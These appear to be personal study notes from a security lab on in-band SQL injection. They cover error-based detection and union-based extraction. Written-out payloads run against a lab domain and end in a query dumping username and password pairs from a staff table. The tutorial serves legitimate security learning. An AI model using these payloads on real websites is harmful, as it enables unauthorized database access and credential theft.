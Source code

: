 ```yaml
---
title: 4.1 In-band SQLi (Classic SQLi)
updated: 2022-11-29T09:18:40.0000000+04:00
created: 2022-11-28T09:33:53.0000000+04:00
---
```


4.1 In-band SQLi (Classic SQLi)
Monday, November 28, 2022
9:33 AM
The most common SQL injection attack is known as in-band SQL injection,

- **happens when the attacker is able to utilize the same parameter and channel to start an attack and receive the desired results**.
- **For Example:** discovering an SQL Injection vulnerability on a website page and then being able to extract data from the database to the same page.
- In-band SQLi is mostly split into two types:

**<u>Error-based SQLi</u>**
- error messages are returned as a response from the database and allow the attacker to gain information about the backend database itself.
- In certain scenarios, error-based SQLi in itself is essential for an attacker to gain access to the backend database; **this is why errors should be disabled in all cases.**

**<u>How to Discover:</u>**

The key to discovering error-based SQL Injection
- break the code's SQL query by
- trying certain characters until an error message is produced;
- these are most commonly single apostrophes **( ' )** or a quotation mark ( " ).

1.  **<u>Example 1 (Simple)</u>**

- **try adding a (') after lets say id=1**

[https://website.thm/article?id=1**'**](https://website.thm/article?id=1')

- It may produce and error
- This will prove the website can be vulnerable to SQLi attacks

**<u>Union-based SQLi</u>**
- Utilizes the SQL operator (union) to concatenate responses of two SQL statements into a single response.

1.  **<u>Example 1:</u>**

- The first thing we need to do is return data to the browser without displaying an error message.
- Firstly we'll try the UNION operator so we can receive an extra result of our choosing. Try setting the mock browsers id parameter to: **1 union select 1**

- <https://website.thm/article?id=1>

- <https://website.thm/article?id=1> union select 1

- If produces an error you can continue by adding: **1 union select 1,2**

- <https://website.thm/article?id=1> union select 1,2

- Moreover, if it still produces errors you can add additional numbers: **1 union select 1,2,3**
- <https://website.thm/article?id=1> union select 1,2,3

2.  **<u>Example 2: Displaying own data</u>**

1.  Once it no longer shows the error messages and displays the article or post, it means you have succeeded.
2.  Now we want to display our own data instead of the article.
3.  The article is being displayed because it is using the id=1
4.  To get around that we need to simply change the id from 1 to 0

- <https://website.thm/article?id=0> union select 1,2,3

5.  The article will end up displaying along with the values returned from the SQL statement of values 1,2 and 3.
6.  We can then use these values to retrieve additional useful information.

3.  **<u>Example 3: Getting the Database Name:</u>**

1.  Simply interchange one of the values from the SQL parameter as seen below
- <https://website.thm/article?id=0> union select 1,2,database()

![image1](image1-182.png)

2.  You can see where the value 3 was previously displayed, it is now showing the database name: sqli_one

4.  **<u>Example 4: Getting Tables from the Database Name</u>**
5.  The next query will gather a list of table that are in this database
- 0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

- <https://website.thm/article?id=0> UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

6.  From the Above, the following parameters are defined as followed:
- **Group_concat()** = gets the specified column
- **Information_schema** = every user has access to this, contains information about all the database and tables the user has access to

5.  **<u>Example 5: Getting Column information from the Table</u>**

1.  Use the **information_schema** to find the structure of the table using the following query;
- 0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
2.  The query will provide results for the staff_users table: **id, password; username**

6.  **<u>Example 6: Getting the Password from the Database:</u>**

- 0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '\<br\>') FROM staff_users

7.  Again we use the group_concat method to return all of the rows into one string and to make it easier to read.
8.  We've also added ,':', to split the username and password from each other.
9.  Instead of being separated by a comma, we've chosen the HTML \<br\> tag that forces each result to be on a separate line to make for easier reading.

.
